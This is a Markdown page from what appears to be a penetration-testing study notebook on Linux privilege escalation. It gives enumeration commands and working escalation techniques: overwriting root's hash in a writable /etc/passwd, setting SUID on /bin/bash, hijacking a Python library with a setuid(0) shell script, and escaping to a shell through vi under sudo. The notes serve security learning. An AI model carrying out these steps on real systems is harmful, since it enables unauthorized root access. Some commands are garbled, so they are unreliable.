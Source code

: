 # (PART) Privilege Escalation {-}

# Linux Machine {-}


To check in which group the user is in the machine:

```bash
id 
```

> [!] NOTE: Checking groups can be interesting because sometimes groups are not related to the machine but related to tools like Docker, lxd or other.

To look at the user privileges use:

```bash
sudo -l
```

Next enumerate SSUID privileges at system level:

```bash
cd /
find \-perm -4000 2>/dev/null
```

## Writable rights in /etc/passwd {-}

Find the tools where the non privileged user have writable rights

```bash
cd /
find \-writable -4000 2>/dev/null | grep "etc"
```

Imagine that /etc/passwd is in the list, that means that u can add a password to root where the first **x** is.

Create a DES(Unix) password

```bash
openssl passwd
#Output
Password:
Verifying - Password:

JIJQueSBU9kBY
```

You can then copy the hash in passwd for the root user

```bash
root:JIJQueSBU9kBY:0:0:root:/root:/usr/bin/zsh
```

## Local Port forwarding {-}

```bash
ssh -i id_rsa user@<ip> -L 9000:172.17.0.2:9000
```

- -i for adding ssh id_rsa key
- -L for local port forwarding where 9000 correspond to local attacker port and 172.17.0.2:9000 correspond to the address Attacker want to connect using ssh

## Add SSUID privilege to tool {-}

```bash
ls -l /bin/bash
# output
-rwxr-xr-x  1   root    root    1037528 May 16  2017    bash

#add ssuid rules
chmod u+s /bin/bash
ls -l /bin/bash
#output
-rwsr-xr-x  1   root    root    1037528 May 16  2017    bash

bash -p
# output
bash-4.3# whoami
root
```

## Path Hijacking {-}

**Path Hijacking** take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

## Library Hijacking {-}

**Library Hijacking** follows exactly the same logic as **Path Hijacking** but with programming languages. If we take the example of python.

```python
import sys

print(sys.path)
#Output
['', '/usr/lib/python2.7', ...]
```

As you can see, when we use the keyword import in python, the first place python will check for importing a library is in the current working directory.
That means that taking the same dumby example if you create a malicious file and rename it by sys.py

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

That's it... by calling the previous script you will become root.

## WildCards {-}

```bash
sudo -l

#output
User x may run the following commands on y:
    (user2) NOPASSWD: /usr/bin/vi


sudo -u user2 /usr/bin/vi
# in vim you can now set commands as user2

:set shell=/bin/bash
:shell

whoami
#output
user2
```

## Linux capabilities exploitation {-}

Check in the system if a tool have a special capability that can be used in order to escalate privileges (**cap_setuid+ep**)

```bash
getcap -r / 2>/dev/null
```

## Kernel abuse {-}

first check the kernel version

```bash
uname -a
```
